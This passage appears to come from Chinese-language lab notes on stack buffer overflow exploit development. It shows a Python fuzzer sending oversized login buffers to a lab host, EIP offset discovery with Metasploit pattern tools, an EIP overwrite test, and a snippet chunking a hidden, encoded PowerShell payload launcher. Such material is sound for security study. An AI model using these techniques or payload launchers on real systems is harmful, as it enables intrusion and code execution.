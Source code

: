 ```python
        buffer += "Content-Length: " + str(len(content)) + "\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.11.0.22", 80))
        s.send(buffer)
        s.close()
        size += 100
        time.sleep(10)
    except:
        print "Could not connect!"

```

## 2-控制EIP，查找EIP地址在溢出数据的位置
两种方式查找EIP地址 位置
* 二分法查找 
发送400 A， 400 B，确认位置
发送400 B，200 B, 200 C
逐步确认所在位置

* msf-pattern-create生成不重复且规则的string

```
locate pattern_create
msf-pattern_create -l 800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4A5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak

//python split
str = "powershell.exe -nop -w hidden -e JABzACAAPQAgAE4AZQB3AC....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'

```

```python
#!/usr/bin/python
import socket

try:
    print "\nSending evil buffer..."
    inputBuffer = "Aa0Aa1Aa2Aa3Aa4Aa5Aa...1Ba2Ba3Ba4Ba5Ba"
    content = "username=" + inputBuffer + "&password=A"

```
运行查看EIP位置写入内容
```
msf-pattern_offset -l 800 -q 42306142
[*] Exact match at offset 780
```
python写入eip及buffer，验证eip是否正确；程序崩溃，EIP位置被写入B
```python
filler = "A" * 780
eip = "B" * 4
buffer = "C" * 16
inputBuffer = filler + eip + buffer

```
